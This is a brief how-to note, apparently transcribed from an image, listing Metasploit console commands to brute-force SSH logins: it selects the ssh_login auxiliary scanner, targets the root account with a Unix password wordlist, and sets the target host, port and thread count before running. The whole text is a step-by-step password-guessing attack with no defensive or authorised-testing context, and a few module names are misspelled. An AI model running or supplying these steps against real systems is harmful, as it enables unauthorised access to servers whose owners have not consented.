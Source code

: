  bruteforce attack SSH with metasploit

run: msfconsole
search ssh (must be auxilary)
look for auxillary/scanner/ssh/ssh login
use (name or auxillary number)
options
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set rhosts (target ip add)
set rport (target port)
set threads 1
set verbose true
run